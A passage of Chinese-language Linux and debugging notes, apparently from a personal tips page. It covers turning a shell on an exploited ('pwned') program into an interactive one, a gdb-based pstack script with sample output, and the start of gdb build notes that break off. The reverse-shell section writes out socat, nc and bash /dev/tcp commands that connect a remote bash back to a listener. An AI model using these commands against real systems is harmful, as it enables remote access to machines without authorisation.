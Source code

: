 ### 輸入輸出到終端的reverse shell

通常用`system("sh")`等方式搞的shell都不是interactive shell，沒有提示符，也無法用readline的快捷鍵，不方便。下面介紹產生interactive shell的方法：

本地監聽9999端口，等遠端被pwn的程序連接：
```zsh
socat stdio,raw,echo=0 tcp-l:9999
# 或者使用stty -echo raw; nc -l 9999; stty echo -raw
```

遠端執行：
```zsh
socat tcp:0:9999 exec:'bash -i',pty,stderr  # 0應填之前監聽9999端口的機器的IP
```

當然遠端很可能沒有`socat`，可以用util-linux包中的`script`：
```bash
script -qc 'bash -i' /dev/null &>/dev/tcp/0/9999 <&1  # 使用了bash創建socket的功能
```

### pstack

打印指定進程的系統棧。

本質是一段腳本，核心是下面這句話：
```zsh
#!/bin/zsh
gdb -q -nx -p $1 <<< 't a a bt' 2>&- | sed -ne '/^#/p'
```

你應該把它保存到你的工具集裏。新的gdb支持對單線程進程使用`thread apply all bt`了。

```
% pstack $$
#0  0x00007fc00a3a6866 in sigsuspend () from /usr/lib/libc.so.6
#1  0x0000000000471906 in signal_suspend ()
#2  0x0000000000442d56 in ?? ()
#3  0x0000000000443437 in waitjobs ()
#4  0x0000000000429b4b in ?? ()
#5  0x000000000042a6e1 in execlist ()
#6  0x000000000042a970 in execode ()
#7  0x000000000043c1dc in loop ()
#8  0x000000000043f30e in zsh_main ()
#9  0x00007fc00a393800 in __libc_start_main () from /usr/lib/libc.so.6
#10 0x000000000041013e in _start ()
```

## 安裝新的gdb

gdb和gcc有一定的版本適配性，有些惡劣的工作環境需要自己編譯安裝gdb，下面只是我折騰C++ STL查看器的註記。

```zsh
./configure --prefix=~/.local/stow/gdb --with-gdb-datadir=/usr/share/gcc-4.9/python
```

`~/.gdbinit`裏添加：
